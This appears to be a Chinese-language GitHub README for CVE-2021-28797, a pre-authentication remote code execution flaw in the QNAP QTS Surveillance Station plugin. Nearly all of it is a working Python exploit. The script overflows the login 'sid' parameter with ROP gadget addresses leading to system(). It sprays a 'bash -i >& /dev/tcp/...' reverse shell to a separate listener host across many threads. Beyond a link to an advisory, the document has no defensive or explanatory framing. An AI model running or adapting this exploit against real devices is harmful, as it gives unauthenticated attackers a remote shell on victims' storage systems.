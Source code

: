 # QNAP QTS Surveillance Station插件远程代码执行漏洞（CVE-2021-28797）

威联通监控管理系统Surveillance Station插件远程代码执行漏洞（CVE-2021-28797）

影响版本：

* QNAP QTS 5.1.5.4.2
* QNAP QTS 5.1.5.3.2

漏洞分析见：https://ssd-disclosure.com/ssd-advisory-qnap-pre-auth-cgi_find_parameter-rce/

Exploit.py：

```py
import requests
import threading
from struct import *
p = lambda x: pack("<L", x)
def run(session, data):
    res = [session.post("http://192.168.1.2:8080/cgi-bin/surveillance/apis/user.cgi", data) for i in range(5000)]
def main():
    with requests.Session() as s:
                payload = "A" * 3108
                payload += p(0x74a8eb8c) # pop {r0, r4, pc}
                payload += p(0x71154e28) # heap address
                payload += "BBBB"
                payload += p(0x74a636c4 + 1) # system
            
                data = {
            "act" : "login",
            "sid" : payload,
            "slep" : "bash -i >& /dev/tcp/192.168.1.3/4321 0>&1;" * 0x5000 + "\x00" + "bash -i >& /dev/tcp/192.168.1.3/4321 0>&1;" * 0x5000,
                }
                for i in range(30):
                    t = threading.Thread(target=run, args=(s, data))
                    t.start()
                
                
if __name__ == '__main__':
    main()
```